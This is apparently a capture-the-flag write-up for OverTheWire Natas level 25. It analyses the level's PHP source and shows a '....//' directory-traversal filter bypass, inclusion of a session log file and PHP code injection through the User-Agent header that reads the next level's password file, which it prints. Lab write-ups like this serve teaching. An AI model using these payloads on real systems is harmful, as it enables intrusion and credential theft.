





Opening the page.


Changing the language is done through a query parameter `lang` through the language selector.

Viewing the source code:

```PHP
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    }
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

// in the viewed HTMl portion

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```

> We see that the vulnerability is some type of file traversal due to the defenses in place to protect against this attack.

#### `setLanguage()`
Analyzing this code, we see that the first function that gets called is the `setLanguage()` function. This function checks if there is a query parameter called `lang` present.
- If it is present, it calls another function called `safeInclude()` with the`/language/` + the value of the `lang` parameter.
- If it isn't present, it calls the `safeInclude()` function with the default value `/language/en`.

If we try adding the `lang` parameter with random sanitary values, we see that the page returns the English version as it calls `safeInclude("language/en")`.

> Heading to that file: `http://natas25.natas.labs.overthewire.org/language/en` and opening the source code:


- It is a PHP file that has the variables that are used by the source code to display the data.

If we try adding an actual value of a language that exists, such as either `en` or `de`, we see that the page reloads with the set language, and the `safeInclude()` function is called appropriately.
- There is also a file for the `de` language as for the `en` language.

#### `safeInclude()`
Now, we need to analyze the `safeInclude()` function, as we see that anything we enter in the `lang` parameter, I'm guessing this is our entry point, is checked there.
- The first `if` replaces occurrences of `../` with an empty string, and then calls the `logRequest()` function, and continues with the function. (Seems vulnerable!!)
- The second `if` checks if `natas_webpass` exists in the file name, and if it does, it calls `logRequest()` function and exits.
- Finally, if the filename after all of these checks exists, it is displayed.

#### `logRequest()`
Finally, the `logRequest()` function writes in the `"/var/www/natas/natas25/logs/natas25_" . session_id() .".log"` file some information such as date, time, and the HTTP header value for the `USER_AGENT`.
- This also seems vulnerable as we can insert the data of our choice into this header value and see if it is reflected in the log file.
- The `session_id()` is the value of the `PHPSESSID` cookie.

> Combining all of this together, we realize that we cannot enter the file that contains the password in the `lang=` parameter as the `safeInclude()` function filters this out in the second if statement.

> Moreover, we see that the `logRequest()` function writes information into a file that we can control through the `USER_AGENT` header, but we need to get to that file first.

So for the first step, we try to reach the `log` file through the `lang` parameter by playing with the directory traversal check in the first `if` statement.
- Since the `strstr()` function linearly searches through the input string and replaces any `../` with nothing, we can craft a string that can bypass this check:
```
....//
123456
```
- The third, fourth, and fifth character forming `../` are removed, leaving the first, second, and sixth character: `../`.

We can also obtain the `PHPSESSID` cookie after observing any request made in BurpSuite:



Now all that is remaining is to navigate to the following folder:
```
/var/www/natas/natas25/logs/natas25_0l0demrcuqn86ueo63apjpv83k.log
```

Since we can move back 1 step using this `....//`, we can move back 5 steps to navigate to the above file using:
```
....//....//....//....//....//var/www/natas/natas25/logs/natas25_0l0demrcuqn86ueo63apjpv83k.log
```

> This file if we put in the `lang` parameter will not be stopped by the `safeInclude()` function, and its content will be displayed.



We see that it works! Now we can try manipulating the `USER_AGENT` header to see if we can display the `/etc/natas_webpass/natas26` file to see the password:

```
User-Agent: echo '/etc/natas_webpass/natas26'
```

This doesn't work, it gets echoed exactly as is in the log file.



We need to execute the contents of the header as code, so we can try writing a PHP script that echoes the contents of the file for us:

```PHP
User-Agent: <?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>
```

Sending this request works, and the contents of the file is output in the log file.



`natas26:8A506rfIAXbKKk68yJeuTuRq4UfcK70k`

---
